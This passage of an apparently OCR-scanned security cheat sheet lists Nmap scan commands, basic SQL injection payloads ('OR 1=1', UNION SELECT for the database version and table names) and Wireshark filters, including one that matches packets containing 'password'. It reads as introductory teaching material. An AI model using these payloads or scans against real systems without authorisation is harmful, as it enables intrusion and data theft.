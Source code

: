 
### 4. Nmap Commands
Nmap is a network scanning tool. Here are some examples:

#### Scan for Open Ports
nmap -sS 192.168.1.1
- What it does: Performs a SYN scan to detect open ports.

#### OS Detection
nmap -O 192.168.1.1
- What it does: Attempts to identify the operating system of the target.

#### Vulnerability Scan
nmap --script vuln 192.168.1.1
- What it does: Runs vulnerability detection scripts against the target.

---

### 5. SQL Injection Commands
SQL injection is a technique for exploiting database vulnerabilities. Here are some examples:

#### Basic SQL Injection
' OR 1=1 --
- What it does: Bypasses authentication by making the query always true.

#### Extract Database Version
' UNION SELECT 1,@@version,3 --
- What it does: Retrieves the database version.

#### Dump Table Data
' UNION SELECT 1,table_name,3 FROM information_schema.tables --
- What it does: Lists all tables in the database.

---

### 6. Wireshark Filters
Wireshark is a network protocol analyzer. Here are some examples:

#### Filter by IP
ip.addr == 192.168.1.1
- What it does: Displays traffic to/from a specific IP.

#### Filter by Protocol
tcp.port == 80
- What it does: Displays HTTP traffic.

#### Filter by Keyword
frame contains "password"
- What it does: Displays packets containing the word "password."

---
